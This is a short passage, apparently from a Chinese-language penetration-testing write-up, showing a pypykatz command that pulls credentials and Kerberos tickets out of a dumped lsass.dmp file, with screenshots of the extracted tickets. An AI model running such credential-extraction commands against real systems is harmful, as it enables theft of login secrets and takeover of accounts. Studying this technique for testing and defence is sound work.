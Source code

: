 使用`pypykatz`对 dmp 进行提取

```bash
pypykatz lsa -k /root/kerb minidump '/home/kali/Desktop/lsass.dmp'
```

[![](assets/1708919803-15c0cfee2a54b170cd00b3bef9d68bdf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142313-31f2c662-ce26-1.png)

`kerb`文件夹下也出现许多票据

[![](assets/1708919803-f3d3aa2f97594acf6614dae8e6f00dca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142318-349b1b6c-ce26-1.png)
